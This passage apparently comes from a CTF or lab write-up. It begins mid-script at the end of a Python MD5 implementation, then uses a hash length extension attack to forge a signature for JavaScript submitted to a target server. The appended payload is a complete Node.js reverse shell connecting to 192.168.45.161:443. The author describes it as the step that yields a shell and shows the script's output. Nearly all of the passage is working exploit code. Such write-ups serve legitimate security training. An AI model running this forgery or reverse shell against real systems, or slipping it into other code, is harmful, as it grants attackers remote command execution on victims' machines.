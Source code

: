 ```python
            0xffffffff & (state[1] + b),
            0xffffffff & (state[2] + c),
            0xffffffff & (state[3] + d),)

curhash = 'aaa8111b4871b48dc6c0ac4c33ef9e1b'
message = b"""function hello(name) {
  return 'Hello ' + name + '!';
}

hello('World'); // should print 'Hello World'"""

append= """
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.45.161", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();""".encode('utf-8')
extended_code = message + padding((len('xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx') + len('|') + len(message))*8) + append

extended_hash = md5(state=bytes.fromhex(curhash), count=1536)
extended_hash.update(append)
#print (extended_hash)
extended_sig = extended_hash.hexdigest()
r = requests.post ('http://192.168.233.153:8000', json={
    'code': base64.b64encode(extended_code).decode('utf-8'),
    'sig': extended_sig
    })
print (r.text)
```

The code I appended is just a JS reverse shell. Running this would give us a shell:

```
$ python3 hash.py
{"result":{}}
```

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>
